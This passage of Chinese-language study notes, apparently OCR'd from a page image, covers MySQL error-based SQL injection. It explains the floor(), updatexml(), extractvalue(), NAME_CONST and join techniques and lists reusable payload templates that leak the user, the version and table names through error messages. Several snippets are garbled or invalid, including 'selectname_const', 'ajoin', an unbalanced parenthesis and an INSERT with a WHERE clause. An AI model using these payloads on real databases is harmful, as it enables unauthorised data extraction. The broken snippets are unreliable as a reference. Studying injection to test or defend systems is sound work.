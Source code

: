 1. 输出字符长度限制为32个字符,查询到的数据超长无法显示的,可以使用substr()函数截取之后分段显示
2. 后台返回记录列数至少2列

insert into t_xx (username,password) values (xxx,xxx) where username = 'Dhakkan'

报错注入需要满足的条件:

1. 注入语句中查询用到的表内数据必须>=3条
2. floor()报错注入在MySQL版本8.0 已失效，经过测试7.3.4nts也已失效

### updatexml()报错注入

- **介绍：**`updatexml()`是一个使用不同的xml标记匹配和替换xml块的函数。
- **作用：**改变文档中符合条件的节点的值
- **语法：**`updatexml(XML_document，XPath_string，new_value)` 第一个参数：是`string`格式，为XML文档对象的名称，文中为Doc ;第二个参数：代表`路径`，Xpath格式的字符串例如//title【@lang】; 第三个参数：`string`格式，替换查找到的符合条件的数据
- **原理：**`updatexml`使用时，当`xpath_string`格式出现错误，`mysql`则会爆出xpath语法错误（`xpath syntax`）
- **例如：** `select * from test where id=1 and (updatexml(1,0x7e,3));` 由于`0x7e`是`~`，不属于xpath语法格式，因此报出xpath语法错误。
- **payload：**`select * from test where id=1 and (updatexml(1,concat(0x7e,payload),3));`

限制：

1. 输出字符长度限制为32个字符
2. 仅payload返回的不是xml格式，才会生效

### ExtractValue()报错注入

- **介绍：**此函数从目标XML中返回包含所查询值的字符串
- **语法：**`extractvalue(XML_document，xpath_string)` 第一个参数：`string`格式，为XML文档对象的名称，第二个参数：`xpath_string`（xpath格式的字符串） `select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`
- **作用：**`extractvalue`使用时当`xpath_string`格式出现错误，mysql则会爆出xpath语法错误（`xpath syntax`）
- **例如：**`select user,password from users where user_id=1 and (extractvalue(1,0x7e));`
- **原理：**由于`0x7e`就是`~`不属于xpath语法格式，因此报出xpath语法错误。

#### 模板1：

```
and extractvalue('anything',concat('/',(Payload)))    将报错，不推荐使用。
```

#### 模板2：

```
union select 1,(extractvalue(1,concat(0x7e,(payload),0x7e))),3  不存在丢失报错成果的情况。推荐使用
```

### 其他报错注入模板

```
1、通过floor报错,注入语句如下:
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2、通过ExtractValue报错,注入语句如下:
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

3、通过UpdateXml报错,注入语句如下:
and updatexml(1,concat(0x3a,(payload)),1)

4、通过NAME_CONST报错,注入语句如下:
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

5、通过join报错,注入语句如下:
select * from(select * from mysql.user ajoin mysql.user b)c;

```